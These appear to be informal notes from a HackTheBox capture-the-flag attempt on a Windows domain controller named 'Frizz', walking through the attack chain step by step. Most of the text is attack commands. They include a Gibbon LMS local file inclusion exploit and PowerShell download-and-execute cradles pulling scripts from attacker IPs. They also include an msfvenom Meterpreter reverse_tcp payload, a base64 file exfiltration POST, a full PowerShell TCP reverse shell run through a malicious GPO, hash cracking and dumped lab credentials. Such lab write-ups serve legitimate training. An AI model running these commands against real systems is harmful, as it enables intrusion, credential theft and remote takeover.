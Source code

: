___


-> this is a domain controller and I got no creds

theres an apache server running on windows on port 80 

theres ssh for windows running on port 22



*local file inclusion with ?q= this is present*
## CVE-2023-34598?




*I think this it*
https://sploitus.com/exploit?id=B9C9A654-821F-5450-BD25-49C6C09C3224




*that worked got a shell as frizz*

whoami
frizz\w.webservice
PS C:\xampp\htdocs\Gibbon-LMS> ls



*local DB creds*

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';


Connect-MariaDB -User "MrGibbonsDB" -Password "MisterGibbs!Parrot!?1" -Database "gibbon" 


ServerAdmin f.frizzle@frizz.htb



frizz\w.webservice



$connection = Connect‑MariaDB `
  -User $User -Password $Password `
  -Server $Server -Port $Port `
  -Database $Database



$connection = Connect‑MariaDB -User "MrGibbonsDB" -Password "MisterGibbs!Parrot!?1" -Server 127.0.0.1 -Port 3306 -Database "gibbon"


Invoke‑MariaDB -Connection $connection -Query 'SELECT * FROM gibbonPerson'




*running scripts in memory*

IEX(New-Object Net.WebClient).downloadString('http://10.10.20.30:8000/myscript.ps1')   `

IEX(IWR http://10.10.20.30:8000/myscript.ps1)   



*upgrading to meterpreter*

$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.20.30 LPORT=9090 -f exe -o evil.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x64 from the payload No encoder specified, outputting raw payload Payload size: 510 bytes Final size of exe file: 7168 bytes Saved as: evil.exe   `


msf6 > use exploit/multi/handler msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp msf6 > set LHOST 10.10.20.30 msf6 > set LPORT 9090 msf6 > exploit`


PS > Invoke-WebRequest -URI http://10.10.10.10:8000/myPayload.exe -OutFile .\myPayload.exe   



-u "MrGibbonsDB" -p "MisterGibbs!Parrot!?1" -P 3306 -D "gibbon"


*this is how it needs to run aparently*

```bash
$db   = 'gibbon'
$user = 'MrGibbonsDB'
$pass = 'MisterGibbs!Parrot!?1'

$mysql  = '.\bin\mysql.exe'
$params = '-u', $user, '-p', $pass, '-D', $db

& $mysql @params -e 'SHOW DATABASES'
& $mysql @params -e '...'
```


& $mysql @params -e 'SELECT * FROM gibbonPerson'




.\mysql.exe -u MrGibbonsDB -p"Mis*********" -e "USE gibbon; SELECT * FROM gibbonperson;" -E




*idk why the command just hangs*
./bin/mysql.exe -u MrGibbonsDB -p 'MisterGibbs!Parrot!?1' -e "USE gibbon;SELECT * FROM gibbonPerson;" -E




& cmd /c '.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;" -E'





*this worked on CMD not powershell!!!!!!!!!!*

.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "USE gibbon; SELECT * FROM gibbonPerson;" -E





*dumped this user*

gibbonPersonID: 0000000001
                    title: Ms.
                  surname: Frizzle
                firstName: Fiona
            preferredName: Fiona
             officialName: Fiona Frizzle
         nameInCharacters: 
                   gender: Unspecified
                 username: f.frizzle
           passwordStrong: 067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
       passwordStrongSalt: /aACFhikmNopqrRTVz2489
       passwordForceReset: N
                   status: Full
                 canLogin: Y
      gibbonRoleIDPrimary: 001
          gibbonRoleIDAll: 001
                      dob: NULL
                    email: f.frizzle@frizz.htb
           emailAlternate: NULL
                image_240: NULL
            lastIPAddress: ::1
            lastTimestamp: 2024-10-29 09:28:59
        lastFailIPAddress: NULL
        lastFailTimestamp: NULL
                failCount: 0







*hashcat command*
hashcat -m 1420 f.frizzle.hash --wordlist ~/Documents/wordlists/rockyou.txt

why tf did it work with 1420 ?? should it not b 1410??? i put the salt at the end 




*hashcrack did it so much easier*

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23




so the format is always HASH:SALT in the file

the modes are how the hash gets computed!!!!!!!!!




so either sha256(salt + password) or sha256(password + salt) 



you need to figure out when the hash is actually computed with one gets put first depends on the application -> research the app that created the hash




f.frizzle
Jenni_Luvs_Magic23



to log in  as f.frizzle need to go through kerberos there is ssh running on the machine 

/etc/krb5.conf needs to be edited to point to the KDC of the domain so ssh can use kerberos

ssh user@pass -K 

also request the TGT with one of the tools





Look for deleted fie in recycle bin  
  
$shell = New-Object -ComObject Shell.Application  
$recycleBin = $shell.Namespace(0xA)  
$recycleBin.items() | Select-Object Name, Path



Restore deleted file  
  
$recycleBin = (New-Object -ComObject Shell.Application).NameSpace(0xA)  
$items = $recycleBin.Items()  
$item = $items | Where-Object {$_.Name -eq "wapt-backup-sunday.7z"}  
$documentsPath = [Environment]::GetFolderPath("Desktop")  
$documents = (New-Object -ComObject Shell.Application).NameSpace($documentsPath)  
$documents.MoveHere($item)





*more than 1 one to skin a cat*
`   PS > $b64 = [Convert]::ToBase64String((Get-Content -Path .\path\to\someFile.exe -Encoding Byte)) PS > Invoke-WebRequest -URI http://10.10.10.10:9090 -Method POST -Body $b64   `




password in that zip file?

!suBcig@MehTed!R



New-GPO -Name pain | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes




### Advanced usage

[](https://github.com/Hackndo/pyGPOAbuse#advanced-usage)

Reverse shell example

```shell
./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
    -powershell \ 
    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
    -taskname "Completely Legit Task" \
    -description "Dis is legit, pliz no delete" \ 
    -user
```





.\RunasCs.exe 'M.schoolbus' '!suBcig@MehTed!R' powershell.exe --remote-impersonation --logon-type 3 -r 10.10.14.138:5555


kerbrute password spray feature


this was a brainfuck idk why


